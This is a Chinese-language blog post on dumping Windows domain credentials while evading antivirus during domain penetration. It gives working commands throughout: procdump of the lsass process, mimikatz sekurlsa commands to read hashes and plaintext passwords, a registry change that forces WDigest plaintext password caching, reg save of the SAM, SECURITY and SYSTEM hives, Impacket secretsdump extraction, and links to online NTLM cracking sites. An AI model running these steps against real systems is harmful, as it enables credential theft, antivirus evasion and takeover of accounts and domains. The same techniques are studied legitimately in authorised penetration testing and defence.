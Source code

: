 ```yaml
---
layout: post
title: 绕过杀软导出域内用户hash和明文密码
date: 2018-12-13 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
在目标机器上使用mimikatz导出用户密码时经常遇到杀软，本文主要记录各种绕过杀软的小技巧。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/hash_hack.jpg?raw=true) 图片来源于https://www.blackhillsinfosec.com/got-privs-crack-those-hashes/

本文中的方法主要有：  
1、方法一：从内存中dump lsass进程的数据，本地mimikatz读取用户hash和明文密码（procdump.exe+mimikatz）  
2、方法二：从注册表中读取用户hash  




### \#0x01 从内存中dump lsass进程的数据后本地读取hash和文明密码

##### 1、导出lsass进程的内存数据
导出lsass进程的内存数据使用的是微软官方的工具[procdump.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，肯定可以免杀。  
在目标机器上执行：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
将在本目录下生成lsass.dmp    
##### 2、本地读取lsass.dmp中的密码  
将lsass.dmp下载会本地后使用mimikatz读取密码，注意，本地运行mimikatz的机器版本要于目标机器版本兼容，其对应关系如下：  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/systems.png?raw=true)

在本地机器上通过mimikatz执行如下命令(注意mimikatz.exe与lsass.dmp同目录)：  
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

由于lsass.dmp一般比较大，可能几十甚至上百兆，下载回本地比较困难，若域内有版本满足上图要求且已控并可以运行mimikatz的机器的话，可以在已控的机器上运行如下命令，毕竟域内机器之间传输lsass.dmp要快且方便的多。远程执行以下命令：  
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> C:\PerfLogs\log.txt
```
##### 3、读取明文密码默认情况下需要目标系统满足如下条件 
Windows 7  
Windows 8  
Windows 8.1  
Windows Server 2008  
Windows Server 2012  
Windows Server 2012 R2  

如果目标系统不满足上述条件时，可以通过修改注册表使系统内存记录用户明文密码，然后dump lsass读取明文密码(需用户重新登录)，Windows Server 2016测试成功。  

管理员权限执行：
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
确认是否修改成功：
```
REG QUERY "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential 
```
如果UseLogonCredential的值为1时，表示修改成功。  
取消记录用户明文密码：  
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

### \#0x02 从注册表中读取用户hash
##### 1、复制注册表项
需要复制的注册表项有：  
```
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
HKEY_LOCAL_MACHINE\SYSTEM
```
利用系统自带的命令复制注册表项，肯定可以免杀，执行如下命令：  
```
C:\> reg.exe save hklm\sam c:\sam.save
C:\> reg.exe save hklm\security c:\security.save
C:\> reg.exe save hklm\system c:\system.save
```
解释下这三个注册表项：  
The SAM subkey refers to information about Security Accounts Manager (SAM) databases for domains. Within each database are group aliases, users, guest accounts, and administrator accounts, plus the name used to log in to the domain, cryptographic hashes of each user's password, and more.

The SECURITY subkey is used to store the security policy of the current user. It's linked to the security database of the domain where the user is logged in, or to the registry hive on the local computer if the user is logged in to the local system domain.

To see the contents of the SAM or SECURITY key, the Registry Editor must instead be opened using the System Account, which has greater permissions than any other user, even a user with administrator privileges.

HKEY_LOCAL_MACHINE\SYSTEM用来解密HKEY_LOCAL_MACHINE\SAM和HKEY_LOCAL_MACHINE\SECURITY，其中HKEY_LOCAL_MACHINE\SAM主要包含本地用户hash和用户的一些属性信息，HKEY_LOCAL_MACHINE\SECURITY主要包含缓存的域用户凭证和LSA Secrets。
##### 2、提取注册表项中的用户hash
将sam.save、security.save和system.save下载回本地后提取用户hash，提取用户hash的工具有很多，本人常用Impacket的secretsdump.py。  
执行以下命令获取sam.save中的用户hash及security.save中缓存的域用户凭证和LSA Secrets。  
注意，这里在security.save获取到的域用户hash是经过加密处理的，不能用于PASS-THE-HASH Attack。  
```
secretsdump.py  -sam sam.save -security security.save -system system.save LOCAL
```
执行结果如下所示  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/reg_hash%20copy.png?raw=true)

也可以单独获取hash或域用户凭证  
获取sam.save中的用户hash  
```
secretsdump.py  -sam sam.save -system system.save LOCAL
```
获取security.save中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -security security.save -system system.save LOCAL
```
ntlm hash可以尝试在这里破解：  
[cmd5](https://www.cmd5.com/)  
[LM/NTLM hash在线破解](https://www.objectif-securite.ch/en/ophcrack.php)

## 未完待续……

### \#0x03 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [HKEY_LOCAL_MACHINE (HKLM Registry Hive)](https://www.lifewire.com/hkey-local-machine-2625902)  


